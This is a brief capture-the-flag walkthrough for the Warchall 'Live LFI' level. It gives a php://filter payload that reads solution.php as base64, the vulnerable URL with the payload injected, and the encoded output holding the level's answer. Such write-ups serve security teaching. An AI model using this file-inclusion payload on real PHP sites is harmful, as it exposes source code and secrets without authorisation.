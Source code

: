 ## Level 14 - Warchall: Live LFI (Local File Inclusion)

### Instructions
- Use the following PHP filter to read and encode the content of the "solution.php" file in base64:
   ```php
   php://filter/read=convert.base64-encode/resource=solution.php
   ```
- Access the vulnerable endpoint:
[https://lfi.warchall.net/index.php?lang=php://filter/read=convert.base64-encode/resource=solution.php](https://lfi.warchall.net/index.php?lang=php://filter/read=convert.base64-encode/resource=solution.php)
-  Decode the base64-encoded content [here](https://www.base64decode.org/) to reveal the solution.
> PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K


